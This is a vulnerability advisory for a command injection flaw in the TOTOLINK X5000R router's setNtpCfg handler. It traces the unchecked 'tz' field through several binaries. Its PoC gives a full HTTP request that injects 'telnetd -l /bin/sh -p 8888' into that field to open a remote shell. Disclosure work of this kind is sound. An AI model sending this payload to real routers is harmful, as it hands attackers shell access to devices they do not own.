






# TOTOLINK Vulnerability

Vendor:TOTOLINK

Product:X5000R

Version:X5000R_Firmware(V9.1.0u.6118_B20201102)(Download Link:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/218/ids/36.html)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability in TOTOLINK Technology router with firmware which was released recently，allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `cstecgi.cgi` binary:

In `setNtpCfg` function,`tz` is directly passed by the attacker, so we can control the `tz` to attack the OS.

As you can see here, in `sub_4230A4` function, the input has not been checked. And then, call the function `nvram_set ` to store this input.

<div  align="center"></div>

This step is mainly for inter-process communication, the vulnerability will be triggered in another binary file.

In `rc` binary:

In `handle_notifications` function

<div  align="center"></div>

<div  align="center"></div>

In `libshared.so` binary:

Eventually, the initial input will be extracted and cause command injection.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part. 


## PoC

We set `tz` as **`telnetd -l /bin/sh -p 8888`** , and the router will excute it,such as:

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 133
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/advance/time.html?time=1645515537351
Cookie: SESSION_ID=2:1645515537:2

{"tz":"`telnetd -l /bin/sh -p 8888`","enable":"1","server":"pool.ntp.org*cn.pool.ntp.org*europe.pool.ntp.org","topicurl":"setNtpCfg"}
```

<div  align="center"></div>


## Result
Get a shell!

<div  align="center"></div>

